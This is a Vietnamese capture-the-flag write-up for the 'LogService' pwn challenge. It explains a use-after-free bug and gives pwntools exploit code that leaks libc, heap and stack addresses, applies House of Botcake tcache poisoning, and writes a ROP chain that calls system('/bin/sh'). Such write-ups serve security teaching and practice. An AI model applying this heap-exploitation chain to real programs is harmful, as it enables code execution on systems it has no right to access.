







# [pwn] LogService (13 solves)

Log requests and save it with this fast and safe Log server

This is a remote challenge, you can connect with:

nc log.challs.teamitaly.eu 29006

Author: Riccardo Sulis <@ricchi24>

## Phân tích

- Trong hàm `remove_request`, sau khi free chunk đã không xoá con trỏ chunk đó.

```c
  if ( ptr < n_requests )
  {
    free(*((void **)requests + ptr));
    for ( i = ptr; i < n_requests - 1; ++i )
      *((_QWORD *)requests + i) = *((_QWORD *)requests + i + 1);
    send_message(0LL, 2LL, "OK");
```

- Hàm `show_request` có bug uaf để leak heap, stack

```c
  if ( ptr < n_requests )
    send_message(0LL, *((unsigned int *)r_sizes + ptr), *((_QWORD *)requests + ptr));
```

- Cuối cùng hàm `creat_request` cho ta tạo nhiều chunk

```c
  if ( n_requests == 50 )
  {
    send_message(1LL, 30LL, "Max number of requests reached");
    clear_stdin();
  }
```

> Từ các bug trên, ta có thể leak heap, libc
> Vì các con trỏ của chunk được lưu trên heap, ta có thể DBF để environ vào chunk chứa con trỏ => leak stack
> Cuối cùng là ROPchain

## Chuẩn bị

```python
def malloc(size, payload):
    s(p32(0))
    sa(b">", p32(size))
    s(payload.ljust(size, b"\0"))


def show(idx):
    sa(b">", p32(1))
    s(p32(idx))
    p.recv(8)


def free(idx):
    sa(b">", p32(2))
    s(p32(idx))
```

## Khai thác

### Leak heap, leak libc

```python
malloc(0x1000, b"a" * 8)
free(0)
show(0)
p.recv(8)
libc.address = u64(p.recv(8)) - 0x219CE0
info("libc base: " + hex(libc.address))
malloc(0x1000, b"a" * 8)

malloc(0x100, b"a" * 8)
free(2)
show(2)
p.recv(8)
heap = (u64(p.recv(8)) << 12) - 0x1000
info("heap: " + hex(heap))
```

### House of botcake

[House of botcake](https://github.com/wan-hyhty/Techniques#house-of-botcake)

- Ban đầu script để khai thác của mình như này.

```python
for i in range(0, 9):
    malloc(0xF0, b"a" * 8)
for i in range(0, 9):
    free(3)
```

- Ta thấy có 2 chunk unsorted 0x100 không nằm cạnh nhau do `realloc` tạo 1 chunk 0x40.
  

- Mình sửa lại script để khi `realloc` nó sẽ lấy trong bin ra thay vì malloc mới.

```python
malloc(0x50, b"a" * 8)
malloc(0x50, b"a" * 8)
free(3)
free(3)

for i in range(0, 9):
    malloc(0xF0, b"a" * 8)

for i in range(0, 9):
    free(5)
```

- Ở đây ta có thể malloc 2 chunk size 0x40 rồi free đi nhưng lúc mình làm thì nhầm 0x50 và nó vẫn hoạt động :)))
  

### overlap chunk -> Leak stack

```python
# House of botcake
malloc(0xF0, b"a" * 8)
free(13)
malloc(
    0x1A0,
    b"a" * 0xA0 + p64(0) + p64(0x101) + p64((heap + 0x2030) ^ (heap + 0x1EC0) >> 12),
)
free(15)
```



- Mình sẽ ghi đè 1 địa chỉ trong chunk con trỏ, để khi show idx sẽ leak được stack
  

```python
malloc(0xF0, b"a" * 8)
malloc(0xF0, p64(libc.sym.environ) + p64(0) * 4 + p64(0x1EFC1 - 0xA0))
show(14)
p.recv(8)
stack = u64(p.recv(8))
info("stack: " + hex(stack))
free(12)
```

- `p64(0x1EFC1 - 0xA0)` mình thêm vào sợ việc ow top chunk khiến cho free malloc khó khăn hơn nên mình phải viết lại
  
- free(12) để sử dụng lại chunk 0x100
- free(15) để sử dụng lại chunk 0x1b0

```
  0x100 [ 6]: 0x55555555bec0 ◂— 0x55500000e90c
  0x110 [ 1]: 0x55555555b2f0 ◂— 0x0
  0x1b0 [ 1]: 0x55555555be10 ◂— 0x0
```

### UAF 0x..ec0 -> ROPchain

- Mình sử dụng lại chunk 0x1b0 để UAF chunk 0x100

```python
target = stack - 8 - 0x140
malloc(
    0x1A0,
    b"a" * 0xA0 + p64(0) + p64(0x101) + p64(target ^ (heap + 0x1EC0) >> 12),
)
```

```
0x100 [  6]: 0x55555555bec0 —▸ 0x7fffffffdcb0 ◂— 0x7ff80000232d
```

```python
malloc(0xF0, b"a" * 8)
rop = ROP(libc)
malloc(
    0xF0,
    flat(
        0,
        rop.find_gadget(["ret"]).address,
        rop.find_gadget(["pop rdi", "ret"]).address,
        next(libc.search(b"/bin/sh")),
        libc.sym.system,
    ),
)
```



## Kết quả


